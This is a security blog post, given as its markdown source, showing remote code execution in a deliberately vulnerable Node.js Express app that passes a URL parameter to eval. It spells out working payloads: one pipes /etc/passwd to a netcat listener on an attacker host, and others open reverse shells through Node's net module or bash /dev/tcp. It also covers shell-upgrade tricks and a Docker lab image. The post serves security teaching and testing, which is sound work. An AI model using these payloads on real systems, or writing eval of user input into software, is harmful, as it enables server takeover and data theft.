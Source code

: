 ```yaml
---
title: "Nodejs RCE and a simple reverse shell"
date: 2016-08-23
categories:
- nodejs
- rce
- poc
tags:
- poc

thumbnailImagePosition: left
thumbnailImage: /img/nodejs-rce-and-a-simple-reverse-shell/1.png
---
```


An example proof of concept to show bad programming practice in nodejs that allows for user supplied data to be executed on the server.

<!--more-->

## Introduction

While reading through the blog post on a [RCE on demo.paypal.com by @artsploit](http://artsploit.blogspot.in/2016/08/pprce2.html), I started to wonder what would be the simplest nodejs app that I could use to demo a RCE. Looking at the hello world tutorials online, I came up with the following simple app that takes a user input via the URL as a GET parameter and passes it to eval, which is obviously a bad programming practice.

## The code

Obviously, the functionality of this app is questionable, but in the real world Node applications will use `eval` to [leverage JavaScript's eval but with sandboxing](https://www.npmjs.com/package/eval) amongst other things.

```
var express = require('express');
var app = express();
app.get('/', function (req, res) {
    res.send('Hello ' + eval(req.query.q));
    console.log(req.query.q);
});
app.listen(8080, function () {
    console.log('Example app listening on port 8080!');
});
```

To access the app, navigate to http://host-ip:8080/?q='Test'.

## How do we exploit this

The exploit can be triggered using the q parameter. Node provides the `child_process` module and the `eval` can be used to execute the exploit. A quick demo can consist of the following steps:

1. Run `nc -lvp 80` on a server you control and whose port 80 is reachable from the server running the Node app.
2. Navigate to `http://host-ip:8080/?q=require('child_process').exec('cat+/etc/passwd+|+nc+attacker-ip+80')`


This will send the contents of `/etc/passwd` to the attacker's nc instance. If the node server has the traditional `nc` installed (instead of the openbsd alternative) you can even use `-e /bin/bash` to return a proper shell from the node server.

![](/img/nodejs-rce-and-a-simple-reverse-shell/1.png)

### Getting a reverse shell

As the case is with default installations the netcat that attackers love may not always be present on vulnerable machines. In such cases, the net module can be used to redirect the stdin, stdout and stderr streams to and from the attacker's machine. The exploit code in such a case would be

```
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attacker-ip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

To execute this, use the following steps:
1. Run nc -lvp 80 on a server you control and whose port 80 is reachable from the server running the Node app. Again, this would act as your shell listener/collector.
2. Navigate to the following URL

```
http://host-ip:8080/?q=var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attacker-ip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

![](/img/nodejs-rce-and-a-simple-reverse-shell/2.png)

You can then use `/bin/bash -i` or `python -c 'import pty; pty.spawn("/bin/bash")'` to get a proper TTY shell ([See more techniques here.](http://netsec.ws/?p=337)).

**Update:** A simpler reverse shell below

### A simpler/alternate reverse shell

```
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.2/80 0>%261"')
```

According to `https://github.com/bahamas10/node-exec`
> For backwards compatibility with child_process.exec, it is also possible to pass a string to exec. The string will automatically be converted to ['/bin/sh', '-c', '{string}'], which will cause the string to be parsed on the shell.

It appears that `/bin/sh` has some trouble dealing with multiple file descriptors, we can simply ask `/bin/sh` to spawn a new `/bin/bash` and use the new `/bin/bash` to execute our standard reverse shellcode. Whew!

## Get this to play with

I created a docker image with Node and the app installed so that this is easier to test and play with. You can setup this PoC using the following steps:

1. Install docker on your host machine. This is the standard reference - https://docs.docker.com/engine/installation/ 
2. Once docker is setup, run the command `docker run -p 8080:8080 -d appsecco/node-simple-rce`
3. Navigate to the app by going to: `http://localhost:8080/?q='Test'`


The code is [available on Github if you want to play with this locally](https://github.com/appsecco/vulnerable-apps/tree/master/node-simple-rce).

Happy Hacking!

---